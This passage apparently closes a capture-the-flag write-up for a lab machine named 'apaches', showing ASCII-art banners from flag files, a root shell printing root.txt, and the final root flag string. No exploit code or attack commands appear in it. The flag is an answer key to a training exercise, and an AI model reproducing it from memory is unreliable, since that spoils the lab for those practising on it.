@@@@@@@@((&/,(///*//////.(%@%%#(//*/((((((%%%,..(.. ......%//////*......,..... *...*.#@@@@@@@@@@@@@@
@@@@@.@@@&@%#//.(/,&@@%%##(#(###(#((((((//%%%((,*..&......*#//////......*. ....,...(@@@@@@@@@@@@@@@@
@@@@@@@@@@/#(/////@@@(&%########(#(((((/(%%%%(///*.*.,. ...*#/////*.,...*..*....@.@@@@@@@@@@@@@@@@@@
@@@@@@@@@@%#/////,@@@&@%####(#####(##(((#%%%%(/((((/.. . .../#/////,....* ., ...@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@/%//////@@@%&&%########(##(##(#%%%%#//(/((((*.......*//////........*@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@(#//*//@@@@(&&&%###(###(####%&&%%%%#(/((((((%*....  .*/////*...,(@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@&%/*///@@@@@(&&%&%#####((##%#&&%%%%((((((((((((*. .....*/*///@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@/#//*/@@@@@@(&&&&%######(%%(&%%%%%/#((((((((/(((/@@@@@@@@////*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@%(//*@@@@@@##&&&&&%######%@&%%#%%(%(((((((((((@((@@@@@@@@@*///*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@/%///@@@@@@@%@@@@&&&&&%%#&&&##%%%(&(((((((((/(/@((*@@@@@@@@@*///@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@#//*@@@@@@@@@@@&@&&&&&(@@&####%%&&((((((((///((@((*@@@@@@@@@@////@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@(//@@@@@@@@@%@@@@@&(@@&%######(%&((((((((((((((&((/@@@@@@@@*(/**/@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@*///*@@@@@@@@@@@@@@@&&&%%####(@&(((((((#((((((/((((*@@@@@@@(///*//@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@%/////@@@@@@@&@@@@@&&&&%##%&@#((((#((((((((((((((((*@@@@@@@(/*///,@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@%//(//@@@@@@#%&@@@&&&&&(@&&%(#((#####((((((((/(#(((/@@@@@@@(*,///@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@(#/,@%/@@@@@&@@@#@@#%&@&%((((#####(#(#(/(%%%%%%%%%%(@@@@@@@//@///*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@*(/@@%,@@@@@@@#&&&(&&((#%#########/####%#%##%%%%%%%(@@@@@@@@@@///@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@//*,@@@@@@@@@@@&&&&&&&%%%#####(%%%%%#####(#(%%%%%%%(@@@@@@,,*,/#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@%**/**%@@@@@@@&&&&&&&%%###/%%#%%%##/##%###/##%%%%%(@@@@@@@*/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@&,@@@@@@@@@#&&&&&&%%#%%#/%%%####(/#(*****,**(%&%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@%&&&&&%#&%@#.%####(*******/*****/*/(%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@%&&&%%&%%*%%/#(*************//*////@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@&&&&(&*,%##/*/**/*/////*/**///////@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@&&&%&/%%#/**//////*///*//*///////@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@(&(%,.(##////////////////,///((/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@&(%%(**((//*///////////*//(((/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@(%#%***/((///*///*////***//(/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@#@&&%*/**#(//////*////***,((@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@%&&%****%#(*//**////,***/*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@(&%#***/%#(///***//******,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@%&#/**///%///**/////*******/**@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@&%******/#/////*////****///*//(/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@&(*//**#/#(///////**/**/*#%%#(///*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@((****/%(/*///////*%///#%%%%%(/(/*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@#*///(%%#(/(((//((/(/((%*%%%#(////(*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@(/(/%*%%#(%/(//(//(//(%(*%/%/*////(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@/%*#%%%(/%/(/(/((//(#*(/////((/%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@(%%*%#(/(%(//////(%%%%(///(*%&#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@%%%%#(/(/((#//(////*%/%#(/##%%/@/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@(%%%#(*#(((*(///(/(,*,@&%###/(&/(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%@#//@%%(/////(/*//*,/%%#((#%/%&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%@@@@&%%%#%%%%*#*%&/%&@#@&@/(%%//@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@&@@@&%%%%%%%/%%&%&#,&*@(//(%#%/&%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@(/@@&&%%%%//&@@,*,@,*#@@@@(((/(%%&(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@/((%#/((*%%&@@&/,,@#/@@@@@@%@@&%%%&**@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@%/&&@&%%%%%(@@,@@/&#@@@@@@@@@(%#((@#/&&(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@%%%%#(/((((@,*@@@@@@@@@@@@@@@#@@@%%%&%&(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@#@&///%#*(/@&#/@@@@@@@@@@@@@@#@@@%%%%/&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@&%%(/%*/%%(@&@@@@@@@@@@@@@@@@@&@@@%#%#%(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@//#&%#%%%(@@@@@@@*@@@@@@@@@@@@@@@@%%%(%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@#@@&%%#%%&@@@@@@@/,@@@@@@@@@@@@@@&%%%#((@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@&@#///#%%(@@@@@@&@@@@@@@@@@@@@%@%####/%(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@#%*&&##*/(@@@@@@@@@@@@@@@@@@@%&&##((//&%(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@/@@@@###%(@@@@@@@@@@@@@@@@@@@########%%%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@&@@@@@%#%#%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@%@@@@@%%##%(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@#@@@@@%##%%%/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@#@@@@%#%####%(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@%@@@%#@%###%%%(@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@%&%#%%%%%%%%%#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@#(((%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

You are on fire, keep going!
```

```
  _____ _                      __                              _
 |  ___| | __ _  __ _    ___  / _|   __ _  ___ _ __ ___  _ __ (_)_ __ ___   ___
 | |_  | |/ _` |/ _` |  / _ \| |_   / _` |/ _ \ '__/ _ \| '_ \| | '_ ` _ \ / _ \
 |  _| | | (_| | (_| | | (_) |  _| | (_| |  __/ | | (_) | | | | | | | | | | (_) |
 |_|   |_|\__,_|\__, |  \___/|_|    \__, |\___|_|  \___/|_| |_|_|_| |_| |_|\___/
                |___/               |___/


%&&&&&&&&&&&&&&&&&&&&&&&&&%&&&&&&&&&&%%%&&&&%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%###(((//////
&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%%%%&%%%%%%%%&%%#(%%%%%%%%%%%%%%%%%%%%%%%##((((((///
%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%%%##%%%%%%%%(/**(%%#%%%%%%%%%%%%%%%%%%%%%%##(((((((//
&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%%%%%%#*,/%%%%((((/%%%%*,/%%%%%%%%%%%%%%%%%%%##((((((/**
&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%(%%////*%%#((##((%%#*/,,,#%%%%%%%%%%%%%%%%%#####((((//
&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%&%%%%#(%/*///*#(/((#(((%#*/,,,,#*,,(%%%%%%%%%%%%%%####((((((
%&&&&&&&&&&&&&&&&&&&&&&&&%&%%%%%%(%(##,,**/**#(((#%/(%*/*,,.,*/,.,%%%%%%%%%%#(%%####((((//
%&&&&&&&&&&&&&&&&&&&&&&&&&%%%&%%(#/(#/,***/**(#((((/%*/*.,,.,/,../%%%%%%############(((/(/
%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%((((/(#,***(*,(#((#(*,**...,,*,...%%.,,.#####%####%###(((/(
%&&&&&&&&&&&&&&&&&&&&&&&&&&&&%&#((#/&#(/((#**/##(%/,,*....,,...,/..,...#%%%%###%#%%###((((
%&&&&&&&&&&&&&&&&&&&&&&&&&&&&%##((#(%#%%((%///##((/*/*..,,,,...,**,.......(#####%#%%###(((
&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%#/#%(##%%#&#%///%#%(//,..,,,..*,.,,....,......,(##%%%%%##(((
%&&&&&&&&&&&&&&&&&&&&&&&&&&%%%((((%%(&%%&&&(%#%%%#%/#*#(/..........,.......#%%#########(((
&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%/#/#%%%%&&&%&%%#%%%#%#*(#%(,#*............./#*/##%#%%##(##((
&&&&&&&&&&&&&&&&&&&&&&&%&&&%%%#/##%%&&&%%%%%(/*#.*/,.,.#*(%/,,#...........(%%%%#####((((((
%&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%(/#&&%%/,(//,(*,/,/(.,,/..,*/(#(..#....../#%%%#######((((((
%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&#*(%%&%,#/*((,(//,//***(..*..,,#*#(((*..((.,%%%%###(((((((((
%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%%(%&(%/#/,%%%%%%%%%#%#(#/*,..#.,*///....*###(#######((((((#
%&&&&&&&&&&&&&&&&&&&&&&&&&&%%%%%%%%/(%%%%../###((*#/.....,,,../(***.((##((((((###(((((((((
%%&&&&&&&&&&&&&&&&&&&&&&&&%&&%%%%%%%#..*,((,/..../..........**(//,./##%%#####((/(((//((###
%%&&&&&&&&&&&&&&&&&&&&&&&%%%&%%%%%%/,.,,##(%#,,,(#,.,...,...,**///*(###%%##(((((((//*/(#((
#%%%%&&&&&&&&&&&&&&&&&&%&%%%%%%%%%(,..,,(%%((#%%%#,..,/*,....,.......(#######(((////((##((
%%%%%%%&&&&&&&&&&&&&&&&&%%%%%%%%%#(..*..,,,/*..,/*....,.....,,/##/,../####((((((/////((##(
%%%%%%%%%%&&&&&&&&&&%%%%&%%%%%%%%##.....**(/*(#(/,..........,*,(%%######(((///((////((##(/
%%%%%%%%%&%&&%&&&&%&&&%%%%%%%%%%%%#,..//,//(*##((*........../,#/(%%%#%##///////////((##((/
%%%%%%%%&%&&&&&%&&%&&%&%%%%%%%%%##,#......*,*/((/,.........,(,.(/##%%%#((//*///////((##(//
%%%%%%%%%&&&&%%%&&&%%%%%%%%%%%%#(/(%**((....*(.............*#*,/((#####(/////////((####(//
%%%%%%%%%%%%%%&%%&&&%%%#%(#%%%#(((#%/./..,.#/.(/(..,*,.....(#/...,,*((#((//*/////((###(///
#%%%%%%%%%%%%&&%%%%%*%%#&*#%%%(//#%%...#,,*/**,,,...(((,..,#/(.,,**//*/,/////////((###(///
(#%%%%%%%%%%%%%%%%%&(*#((/(((/*,#%%#.,.,,%//((%#/,......,#%#((.,*///(//((////////(((((///(
(##%#%%%%%%%%%%##%%%%/,%(/,(*,,,%%#%#..,**/((/(*,,...,,,,,,(#(,,**(((((((/((////((((((/*((
*(#%##%%%%%%%%%##%((%(.*%**/(..(%%%%#..,*(//(/*,,,...,.,,,*%(((***/(((#%(,(/##(((((((////(
/(###%%%%%%%%%###*#%%#(/#,#,,((%%%%%#/..*/////*,*,..,,,,,**####/*/(((%##(*(#%,((/((/////(#
/(##%%#%%%%%%#%,(%%%##(,//,*(*/%&%%/%#..*/**//*,*,,,,,,,,,/(%%%//((%,/%%%/,,/#(((/(////#((
*#(#(#####%#%#/*%%%%(**(/*(*((%&%%%%%#.,*(/***,,**,/,,,**(/*/(#*%/*,%%(((//(%#%#%(////(#((
*##((#######%(*####.*(///,(*/,&%%%%%%#.,,,**%,***%/,,/.**,*#%%(%(*/,*,/%#,(%%%%%((///((#((

As long as you keep going, you'll keep getting better.
```

```
root@apaches:~# cat root.txt


         █████╗ ██████╗  █████╗  ██████╗██╗  ██╗███████╗███████╗
        ██╔══██╗██╔══██╗██╔══██╗██╔════╝██║  ██║██╔════╝██╔════╝
        ███████║██████╔╝███████║██║     ███████║█████╗  ███████╗
        ██╔══██║██╔═══╝ ██╔══██║██║     ██╔══██║██╔══╝  ╚════██║
        ██║  ██║██║     ██║  ██║╚██████╗██║  ██║███████╗███████║
        ╚═╝  ╚═╝╚═╝     ╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚══════╝


            ............
                 ........,,,,,,,
                      ....,,,,.......
                            .............
                                 ............
     .................,,,,,,,,....     ........
                , ,,,,,,,,,,,,............ .......
                                     .........  ....
                                    ..................
                                ,,....................
                              *,,,,,,,,,,,,,,,,,,,,,,.
                             ***,,,,,,,,,,,,,,,,,,,,,.........
                            *****,,,,,,,,,,,,,,,,,,,.......,,,,,
                           /////**,,,,,,,,,,,,,,,,,,......,,,,,,.
                           ////////,******,,,,,,,,,......,,,,,,,,
                          ///////////*************.,,,,,,,,,,,,,
                          ////////////*********,,,....,,,,,,,,,,,
                           /////////////***,,,,,,........,,,,,,....
                          ./////******,,,,,,,,,,.....,......,,......
                          **********,,,,,,,,,,,,...,,,,.....,,........
                          *******,,,,,,,,,,,,,,..,,,,,,,.,,,,,,,.
                         ******,,,,,,,,,,,,,,,,,........,,,,,,,,,
                        ,****,,,,,,,,,,,,,,,,,,,,.......,,,,..,,,
                       ***,,,,,,,,,,,,,,,,,,,,,,,,.....,,......
                     ***,...,,,,,,,,,,,,,,,,,,,,,,,.............
                        ((,,,,,,,,,,,,,,,,,,,,,,,,,.
                      *((((((((,,,,,,,,,,,,,,,,,,,,
                                       ,,,,,,,,,,,
                                          /,,,,..
                                              ,...
                                                 ,.


                Awesome, you have captured the root flag!!!!!

Flag: OneSingleVulnerabilityAllAnAttackerNeeds
```


</details>